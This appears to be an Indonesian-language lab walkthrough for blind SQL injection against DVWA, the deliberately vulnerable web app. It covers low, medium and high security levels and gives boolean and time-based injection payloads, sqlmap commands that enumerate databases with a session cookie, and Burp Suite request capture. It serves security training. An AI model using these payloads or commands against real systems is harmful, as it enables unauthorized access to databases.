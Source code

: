 # SQL Injection (Blind)
Blind SQL Injection muncul ketika aplikasi rentan terhadap SQL Injection, tetapi respons HTTP-nya tidak berisi hasil kueri SQL yang relevan atau detail kesalahan basis data apa pun.

## Security Low
```sh
1' and length(database())=4#
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%201.JPG)

- Menemukan database dengan tool sqlmap
```sh
sqlmap -u "http://<IP_Server>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=hash; security=low" --dbs
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%202.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%203.JPG)

## Security Medium
- Lakukan injeksi pada tag `<option>` menggunakan inspect element di browser
```sh
1 and sleep(5)
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%204.JPG)

- Kembali ke halaman seperti semula, tangkap request pada halaman **SQL Injection (Blind)** dengan **Security Medium** menggunakan tool Burp Suite. Klik kanan pada kolom **Request** dan pilih **Save Item**

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%206.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%207.JPG)

- Lakukan SQL Injection pada request dengan tool sqlmap
```sh
sqlmap -r nama_file_request --dbs
```

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%208.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/dvwa-tricks/blob/main/assets/sql%20injection%20blind/sqli%20blind%209.JPG)

## Security High
```sh
sqlmap -u "http://<IP_Server>/DVWA/vulnerabilities/sqli_blind/?id=1" --cookie="PHPSESSID=hash; security=high" --dbs
```
